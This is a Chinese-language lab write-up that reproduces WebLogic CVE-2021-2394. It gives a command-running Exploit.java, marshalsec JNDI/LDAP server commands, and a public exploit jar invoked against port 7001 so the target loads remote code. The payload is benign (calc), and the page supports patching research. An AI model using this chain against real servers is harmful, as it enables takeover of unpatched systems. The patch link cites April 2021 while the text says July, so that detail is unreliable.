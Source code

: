 # Weblogic 二次反序列化漏洞 CVE-2021-2394

# Weblogic 二次反序列化漏洞 CVE-2021-2394

## 漏洞描述

Oracle官方发布了2021年7月份安全更新通告，通告中披露了WebLogic组件存在高危漏洞，攻击者可以在未授权的情况下通过IIOP、T3协议对存在漏洞的WebLogic Server组件进行攻击。成功利用该漏洞的攻击者可以接管WebLogic Server。

这是一个二次反序列化漏洞，是CVE-2020-14756和CVE-2020-14825的调用链相结合组成一条新的调用链来绕过weblogic黑名单列表。

## 漏洞影响

```
Oracle WebLogic Server 10.3.6.0.0
Oracle WebLogic Server 12.1.3.0.0
Oracle WebLogic Server 12.2.1.3.0
Oracle WebLogic Server 12.2.1.4.0
Oracle WebLogic Server 14.1.1.0.0
```

## 环境搭建

系统环境：window10 系统

weblogic 版本：12.2.1.3，官网下载

![image-20230328155039160](images/image-20230328155039160.png)

在当前目录启动，启动后访问：

![image-20230328155131145](images/image-20230328155131145.png)

## 漏洞复现

下载 marshalsec 利用 marshalsec 开启 JNDI 服务：

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

创建 Exploit.java，通过 javac 编译得到 Exploit.class：

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务：

```
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

使用exp进行复现：

- https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```

![image-20230328155325277](images/image-20230328155325277.png)

## 修复方式

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

- https://www.oracle.com/security-alerts/cpuapr2021.html

